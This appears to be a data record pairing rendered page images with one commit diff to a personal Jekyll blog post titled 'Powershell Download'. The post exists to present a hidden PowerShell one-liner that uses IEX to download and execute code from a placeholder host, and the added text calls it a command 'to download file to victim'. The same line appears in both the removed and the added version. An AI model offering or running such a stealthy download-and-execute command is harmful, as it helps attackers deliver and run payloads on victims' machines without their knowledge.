

Before and after one commit to blkbrd/blkbrd.github.io, a Jekyll site: the page built from _posts/2017-06-23-my-first-post.md, in a window 1280 px wide. Shown: the top 453 px of the page, without its empty margins (160-957 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2017-06-23-my-first-post.md
eh?

```diff
--- a/_posts/2017-06-23-my-first-post.md
+++ b/_posts/2017-06-23-my-first-post.md
@@ -1,9 +1,10 @@
 ---
 layout: post
-title: "powershell download"
+title: "Powershell Download"
 date: 2017-06-23
 ---
 <p>
-something like:
-<code>powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://ip:port/file'))"</code>
+host file on a webpage. use this command to download file to victim
+<p>
+<code>powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://&lt;ip&gt;:&lt;port&gt;/&lt;file&gt;'))"</code></p>
 </p>
```
